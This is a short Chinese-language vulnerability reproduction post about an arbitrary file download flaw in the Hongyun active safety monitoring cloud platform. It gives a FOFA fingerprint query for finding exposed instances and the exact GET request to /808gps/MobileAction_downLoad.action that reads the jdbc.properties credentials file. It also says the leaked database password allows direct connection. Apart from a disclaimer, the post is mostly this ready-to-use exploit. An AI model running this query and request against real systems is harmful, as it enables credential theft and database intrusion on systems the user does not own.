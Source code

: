 # 原创
：  漏洞复现--鸿运主动安全监控云平台任意文件下载

# 漏洞复现--鸿运主动安全监控云平台任意文件下载

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行<br/> **

### 一：漏洞描述

深圳市强鸿电子有限公司鸿运主动安全监控云平台存在任意文件下载漏洞，攻击者可通过此漏洞获得登录账号密码，以进行后续测试。

### 二：漏洞影响版本

鸿运主动安全监控云平台

### 三：网络空间测绘查询

fofa：<br/> `body="./open/webApi.html"`

### 四：漏洞复现

`GET /808gps/MobileAction_downLoad.action?path=/WEB-INF/classes/config/jdbc.properties`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a35af02ac4710a7c20fbbf957badc8a1.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a436f4aab1db8b7396c714dbf6abc584.jpeg"/>

### 五：漏洞利用

读取到数据库账号密码，直接连接<br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/b617d3b1f3f5422c99ce4f51cabfe714.png"/>

